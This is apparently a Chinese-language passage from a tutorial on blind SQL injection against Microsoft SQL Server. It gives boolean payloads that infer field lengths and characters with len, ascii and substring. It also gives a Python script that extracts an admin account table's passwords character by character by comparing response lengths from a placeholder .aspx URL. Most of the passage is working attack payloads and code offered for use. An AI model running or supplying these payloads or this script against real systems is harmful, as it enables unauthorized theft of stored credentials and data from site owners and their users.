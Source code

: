 and (select len(字段) from 数据库..指定表where 排除条件)>1–  即：

and (select top 1 len(字段) from 数据库..指定表  where  字段 not in (select top 1 字段 from 数据库..指定表))>N

数据：
and ascii(substring((select cast(字段 as varchar) from 指定表 where 排除条件),1,1))>1– 即：

and ascii(substring((select top 1 cast(字段 as varchar) from 指定表 where 字段 not in (select top 1 字段 from 指定表)),1,1))>1

或：

and ASCII(substring('(select top 1 字段 from 指定表 where 字段 not in (select top 0 字段 from 指定表)',1,1))>1

## 脚本：

可帮助盲注是更快爆破（sqlserver.py）

#coding=utf-8


import sys

import requests

import re

import binascii

from termcolor import *

import optparse


url='http://xxx.aspx?i=10'

payloads='abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.'

results='';

response=requests.get(url)

length = response.headers['content-length']

print (colored("true length: "+length,"green",attrs=["bold"])) #termcolor 绿 加粗

for i in range(1,3):

	for payload in payloads:
  
		#payload_url="' and (select top 1 asc(mid(password,{},1)) from admin)={} and '1'='1 ".format(i,ord(payload))  #ord 返回ascii码值
    
		payload_url="and ASCII(substring('(select top 1 密码 from admin_员工帐号管理 where 密码 not in (select top 0 密码 from admin_员工帐号管理)',{},1))={}".format(i,ord(payload))
    
		#print (payload)
    
		response=requests.get(url+payload_url)
    
		length_now = response.headers['content-length']
    
		#print (colored("now length: "+length_now,"green",attrs=["bold"]))
    
		if length_now==length:
    
			results=results+payload
      
			break;
      
	print (colored("result:"+results,"yellow",attrs=["bold"]))
  

print (colored("over ---","green",attrs=["bold"]))
